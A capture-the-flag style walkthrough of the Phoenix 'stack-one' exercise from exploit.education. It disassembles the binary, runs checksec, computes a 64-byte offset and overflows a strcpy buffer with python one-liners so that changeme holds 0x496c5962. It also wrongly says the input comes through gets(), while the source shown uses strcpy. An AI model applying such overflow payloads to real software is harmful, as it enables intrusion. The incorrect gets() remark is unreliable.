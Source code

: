 # PHOENIX - stack 1

Lets list our files using ```ls -la```,

```
user@phoenix-amd64:~$ ls -la
total 28
drwxr-xr-x 2 user user 4096 Jun  6 03:42 .
drwxr-xr-x 3 root root 4096 Jan 13  2019 ..
-rw-r--r-- 1 user user  220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user 3526 Jan 13  2019 .bashrc
-rw-r--r-- 1 user user  675 Jan 13  2019 .profile
-rwxr-xr-x 1 user user 6176 Jun  6 03:41 stack-one
```

Lets view our file type of the binary using ```file``` command,
```
user@phoenix-amd64:~$ file stack-one
stack-one: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

It is a ```not stripped``` binary

Lets try running it,

```
user@phoenix-amd64:~$ ./stack-one
Welcome to phoenix/stack-one, brought to you by https://exploit.education
stack-one: specify an argument, to be copied into the "buffer"
user@phoenix-amd64:~$ ./stack-one monish
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962
```

It seems like we have to overwrite the ```0x496c5962``` value into the ```changeme``` variable

We didn't overwrite it yet,so it displays ```0x00000000``` in it

Lets view our binary in debugger,

Lets view the functions in it,

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000400478  _init
0x00000000004004a0  strcpy@plt
0x00000000004004b0  printf@plt
0x00000000004004c0  puts@plt
0x00000000004004d0  errx@plt
0x00000000004004e0  exit@plt
0x00000000004004f0  __libc_start_main@plt
0x0000000000400500  _start
0x0000000000400516  _start_c
0x0000000000400540  deregister_tm_clones
0x0000000000400570  register_tm_clones
0x00000000004005b0  __do_global_dtors_aux
0x0000000000400640  frame_dummy
0x000000000040066d  main
0x0000000000400700  __do_global_ctors_aux
0x0000000000400742  _fini
```

Lets disassemble our ```main()``` function,

```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000040066d <+0>:	  push   rbp
   0x000000000040066e <+1>:	  mov    rbp,rsp
   0x0000000000400671 <+4>:	  sub    rsp,0x60
   0x0000000000400675 <+8>:	  mov    DWORD PTR [rbp-0x54],edi
   0x0000000000400678 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x000000000040067c <+15>:	mov    edi,0x400750
   0x0000000000400681 <+20>:	call   0x4004c0 <puts@plt>
   0x0000000000400686 <+25>:	cmp    DWORD PTR [rbp-0x54],0x1
   0x000000000040068a <+29>:	jg     0x4006a0 <main+51>
   0x000000000040068c <+31>:	mov    esi,0x4007a0
   0x0000000000400691 <+36>:	mov    edi,0x1
   0x0000000000400696 <+41>:	mov    eax,0x0
   0x000000000040069b <+46>:	call   0x4004d0 <errx@plt>
   0x00000000004006a0 <+51>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006a7 <+58>:	mov    rax,QWORD PTR [rbp-0x60]
   0x00000000004006ab <+62>:	add    rax,0x8
   0x00000000004006af <+66>:	mov    rdx,QWORD PTR [rax]
   0x00000000004006b2 <+69>:	lea    rax,[rbp-0x50]
   0x00000000004006b6 <+73>:	mov    rsi,rdx
   0x00000000004006b9 <+76>:	mov    rdi,rax
   0x00000000004006bc <+79>:	call   0x4004a0 <strcpy@plt>
   0x00000000004006c1 <+84>:	mov    eax,DWORD PTR [rbp-0x10]
   0x00000000004006c4 <+87>:	cmp    eax,0x496c5962
   0x00000000004006c9 <+92>:	jne    0x4006d7 <main+106>
   0x00000000004006cb <+94>:	mov    edi,0x4007d8
   0x00000000004006d0 <+99>:	call   0x4004c0 <puts@plt>
   0x00000000004006d5 <+104>:	jmp    0x4006eb <main+126>
   0x00000000004006d7 <+106>:	mov    eax,DWORD PTR [rbp-0x10]
   0x00000000004006da <+109>:	mov    esi,eax
   0x00000000004006dc <+111>:	mov    edi,0x400820
   0x00000000004006e1 <+116>:	mov    eax,0x0
   0x00000000004006e6 <+121>:	call   0x4004b0 <printf@plt>
   0x00000000004006eb <+126>:	mov    edi,0x0
   0x00000000004006f0 <+131>:	call   0x4004e0 <exit@plt>
End of assembler dump.
```

Lets view the source code of this binary for proper understanding,

```
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

It is same like previous challenge,but here we have to overwrite the ```changeme``` variable with ```0x496c5962```

The main key of the program lies in this condition,

```
if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }
```

Checking the security mitigations of this binary,

```
ra@moni~/E/p/stack1> checksec stack-one
[*] '/home/ra/ExpDevPractice/phoenix/stack1/stack-one'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
    RPATH:    '/opt/phoenix/x86_64-linux-musl/lib'
```

It has no security mitigations in it, we can use the ```buffer``` to overwrite the ```changeme``` variable

Since ```buffer``` uses ```gets()``` for input,we can use this for overflow

In debugger we can see,

```
0x00000000004006a0 <+51>:	mov    DWORD PTR [rbp-0x10],0x0
```

It is used to initialize ```changeme``` ie. ```locals.changeme = 0```

```
0x00000000004006b2 <+69>:	lea    rax,[rbp-0x50]
```

It is used to load the buffer space for ```buffer```

Calculating the distance of these memory,

```
>>> int(0x50)
80
>>> int(0x10)
16
>>> print(80-16)
64
```

If we could pass 64 bytes of ```buffer``` and  extra bytes to ```buffer``` it would overwrite the ```changeme``` variable

Since it uses ```argv``` we should pass our input as argument

Lets try exploiting it,

```
user@phoenix-amd64:~$ ./stack-one $(python -c "print('A'*64)")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962
user@phoenix-amd64:~$ ./stack-one $(python -c "print('A'*64+'BBBB')")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x42424242, we want 0x496c5962
```

Now we can successfully overwrite the ```changeme``` variable

But we have to overwrite it with ```0x496c5962``` correctly

Check the endian of your processor,
```
user@phoenix-amd64:~$ lscpu | grep Endian
Byte Order:            Little Endian
```

Since we are using little endian, ```0x496c5962``` should be passed as ```\x62\x59\x6c\x49```

```
user@phoenix-amd64:~$ ./stack-one $(python -c "print('A'*64+'\x62\x59\x6c\x49')")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Done! We have completed our challenge



